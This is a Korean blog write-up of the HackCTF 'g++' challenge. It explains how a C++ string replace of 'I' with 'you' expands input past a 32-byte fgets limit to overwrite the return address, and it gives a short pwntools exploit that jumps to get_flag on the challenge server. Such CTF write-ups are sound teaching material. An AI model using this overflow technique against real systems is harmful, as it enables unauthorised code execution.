 ```yaml
---
layout: post
title:  "HacCTF g++ write-up"
date:   2020-01-08 19:45:55
image:  hackctfgpwn.PNG
tags:   [Hackctf]
categories: [Write-up]
---
```


### 1.  문제

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled.png)

NX 비트가 걸려있는 것을 확인 할 수 있다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%201.png)

프로그램을 실행시키면 다음과 같은 문구가 뜨고 입력할 수 있는 공간이 뜬다

그리고 So, + 입력한 문자열이 나온다. 

코드를 한번 봐보자

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%202.png)

메인 함수는 별게 없다. Vuln함수를 봐보자

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%203.png)

vuln 함수는 다음과 같다. c++ 코드로 되어 있는것 같은데 굉장히 복잡해 보인다.

우선 s변수에 fgets로 값을 입력받는다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%204.png)

그리고 get_flag 함수가 있는데 이거를 실행시켜야 플래그를 획득할 수 있을 것같다

흐름을 보쟈면, fgets 함수와  strcpy 함수를 이용하여 bof를 일으키고, get_flag 함수를 실행시키면 될것같다

### 2. 접근방법

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%205.png)

- 코드를 보면 처음에 입력한 값이 s에 들어가고 그걸 input에 복사한다
- 그다음 v5에 "you", v7에 "I"를 넣고
- replace 함수를 이용하여 v4에 input, v7 변수를 인자로 하여 "I"를 "you"로 변경시킨다

그렇다면, 처음에 fgets는 32바이트 크기만 입력을 받으므로, ret 주소까지의 거리인 ebp-3Ch , 즉 64바이트 크기만큼 입력을 못한다

하지만 replace 함수를 통하여 I 가 you 로 변경되기 때문에 이를 이용하면 될 것이다

정리하면

- ret까지 필요한 크기 : 64byte
- 페이로드 : I * 21 == you * 21 = 63  여기에 + 1byte(아무값)

이렇게 입력하면 될 것이다

### 3. 풀이

최종 익스 코드는 다음과 같다

    from pwn import *
    
    p = remote("ctf.j0n9hyun.xyz",3011)
    
    #p.recvuntil("Tell me something about yourself:")
    #p.recv(34)
    payload = "A"
    payload += "I"*21
    payload += p32(0x08048F0D)
    
    p.sendline(payload)
    
    p.interactive()

recvuntil() 사용하면 중간에 멈추고 진행이 안된다. 이는 서버 오류인듯 싶다

### 4. 몰랐던 개념

c++ 아이다 코드에 익숙해져야겠다